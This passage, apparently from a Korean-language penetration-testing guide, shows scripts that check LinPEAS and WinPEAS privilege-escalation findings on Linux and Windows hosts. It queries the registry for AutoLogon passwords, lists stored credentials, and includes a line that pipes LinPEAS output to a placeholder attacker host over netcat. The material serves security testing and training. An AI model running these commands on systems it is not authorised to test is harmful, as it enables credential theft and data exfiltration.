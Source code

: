 ```bash
        fi
    done
}

validate_linpeas_results
```

```cmd
:: WinPEAS 결과 검증 스크립트
@echo off
echo === Validating WinPEAS High-Risk Findings ===

echo [+] Validating AlwaysInstallElevated...
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 2>nul | findstr AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 2>nul | findstr AlwaysInstallElevated

echo [+] Validating AutoLogon credentials...
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr "DefaultUserName\|DefaultPassword"

echo [+] Validating unquoted service paths...
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

echo [+] Validating stored credentials...
cmdkey /list 2>nul | findstr "Target"

echo [+] Validating file permissions...
icacls "C:\Program Files" | findstr "Everyone\|Users" | findstr "F\|M"

echo === Validation Complete ===
```

### 🔧 도구 실행 최적화 및 문제 해결

```bash
# 메모리 부족 환경에서의 실행
# 1. 스왑 파일 생성
sudo dd if=/dev/zero of=/tmp/swapfile bs=1M count=512 2>/dev/null
sudo mkswap /tmp/swapfile 2>/dev/null
sudo swapon /tmp/swapfile 2>/dev/null

# 2. 도구 실행 후 정리
./linpeas.sh > results.txt 2>&1
sudo swapoff /tmp/swapfile 2>/dev/null
rm /tmp/swapfile 2>/dev/null

# 3. 제한된 디스크 공간
# 결과를 즉시 네트워크로 전송
./linpeas.sh | nc ATTACKER_IP 4444

# 4. 느린 시스템에서의 최적화
# 빠른 스캔만 실행
./linpeas.sh -q -o SysI,UsrI | head -500

# 5. 권한 부족시 대안
# 읽기 전용 정보만 수집
./linpeas.sh -o SysI,Net,UsrI
```
